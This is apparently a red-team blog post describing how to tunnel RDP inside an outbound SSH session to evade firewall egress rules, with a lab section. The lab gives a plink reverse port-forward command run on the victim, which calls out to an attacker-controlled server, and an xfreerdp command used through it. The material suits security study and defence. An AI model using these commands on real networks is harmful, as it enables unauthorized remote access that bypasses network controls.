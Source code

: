 ```yaml
---
title: "Bypassing Network Restrictions Through RDP Tunneling"
date: 2025-08-29
draft: false
summary: "When the firewall says 'no way in,' we tunnel our own highway."
description: "A deep dive into using SSH and RDP tunneling to slip past network restrictions, maintain persistence, and move laterally like a ghost in the wire."
tags: ["redteam", "ssh", "rdp", "persistence", "evasion"]
layoutBackgroundBlur: true
showDate: true
showAuthor: true
---
```


## Scenarios

Think stealth. In many enterprises, direct RDP connections to the internet are blocked—both inbound *and* outbound. Firewalls or egress filters cut off outbound RDP (TCP 3389) to prevent users or attackers from opening remote desktop sessions directly to the outside world.  

But here’s the catch: SSH is rarely blocked. Outbound SSH (TCP 22) is often allowed, either for administrators, developers, or automated processes that legitimately need it. This becomes the perfect cover channel.  

By wrapping RDP traffic inside an SSH tunnel, we bypass the outbound block entirely. To the firewall, it looks like a normal, permitted SSH session. Inside that encrypted stream, however, we’re smuggling RDP traffic.  

This dual effect makes SSH tunneling attractive:  
- **For admins/developers:** It provides secure, encrypted access without exposing RDP directly.  
- **For attackers:** It’s a stealth highway—RDP hidden inside an allowed protocol, nearly invisible to traditional firewall rules or simple packet inspection.  

In short: block RDP all you want—if SSH is open, attackers can still tunnel through.


## Work

Let’s break down how RDP tunneling through SSH actually works in practice:

1. **The Environment**  
   Inside the enterprise, there’s a Windows host running RDP on TCP 3389.  
   The firewall is locked down against inbound internet connections (a common setup), but outbound traffic is allowed.  
   On the outside, the operator controls a Linux server—often called a *bastion* or *C2 node*.

2. **The Pivot Calls Out**  
   From within the network, a machine that can reach the Windows RDP host initiates an outbound SSH connection to the external Linux server on TCP 22.  
   Because it’s outbound, the firewall happily lets it through.

3. **Building the Tunnel**  
   As part of that SSH session, the operator sets up a *remote port forward*.  
   In simple terms:  
   > “Hey Linux server, listen on 127.0.0.1:12345. Anything that comes in there—wrap it up, send it through this encrypted tunnel, and I’ll hand it off to the RDP service inside.”

4. **Listener Comes Alive**  
   Now the Linux server has a local-only listener running on 127.0.0.1:12345.  
   Nothing has touched the RDP host yet—it’s just a waiting pipe.

5. **Operator Connects Over RDP**  
   The operator fires up an RDP client on the Linux server, pointing it at 127.0.0.1:12345.  
   From the client’s perspective, it looks like a normal local connection.

6. **Traffic Flows Inside SSH**  
   The bytes from that RDP session don’t terminate on the Linux box.  
   Instead, SSH forwards them straight through the encrypted session on TCP 22.

7. **Delivered to the Real RDP Host**  
   On the inside, the SSH client receives the forwarded bytes and opens a standard TCP connection to the Windows host on port 3389.  
   From the Windows box’s perspective, it’s just a normal LAN connection.

8. **End-to-End Session**  
   From here on out, every RDP packet flows like this:  

The firewall only sees an allowed SSH session. It cannot inspect the RDP traffic inside because it’s fully encrypted.

`RDP client → 127.0.0.1:12345 (Linux) → SSH tunnel on TCP 22 → firewall → inside pivot → Windows:3389`

---

### What Each Party Sees
- **Perimeter firewall:** One long-lived outbound SSH connection with steady bandwidth.  
- **Linux server:** A loopback listener on 12345 receiving an RDP handshake.  
- **Windows host:** A local inbound connection to port 3389, as if it came from a machine inside the network.  

**Ports in play:**  
- 22 → SSH tunnel transport  
- 12345 → External loopback helper port  
- 3389 → Actual RDP service  
- Ephemeral ports → Temporary client-side sources  

---

### Why It Works
The firewall is configured to block inbound connections, but nothing stops an internal host from calling out.  
By wrapping RDP inside an outbound SSH tunnel, the operator bypasses the “no inbound” policy.  
From the outside world, nobody ever connects directly to port 3389—RDP is completely hidden inside SSH.

## Practice

### Environment Setup

For this lab, we’ll simulate a simple network:

- **Attacker (Kali Linux):** `192.168.50.2`  
- **Victim (Windows 10):** `192.168.50.3`  

The attacker will use SSH tunneling to reach the RDP service running on the victim, even though direct RDP connections are blocked.

---

### Steps

**Victim:**

`plink.exe <users>@<IP or domain> -pw <password> -P 22 -2 -4 -T -N -C -R 12345:127.0.0.1:3389`

**Attacker:**

`xfreerdp3 /u:<user> /p:<password> /v:127.0.0.1:12345`

---

1. **Enable outbound rule for mstsc**

<p align="center">
    <img src="img/1_Program.png" />
    <img src="img/1_Action.png" />
</p>

2. **Remmina**

<p align="center">
    <img src="img/remmina.png" />
    Fail when connect directly with rdp connection
</p>

3. **xfreerdp**

<p align="center">
    <img src="img/xfreerdp.png" />
    Success through ssh tunnel
</p>

## References

[Bypassing Network Restrictions Through RDP Tunneling](https://cloud.google.com/blog/topics/threat-intelligence/bypassing-network-restrictions-through-rdp-tunneling/)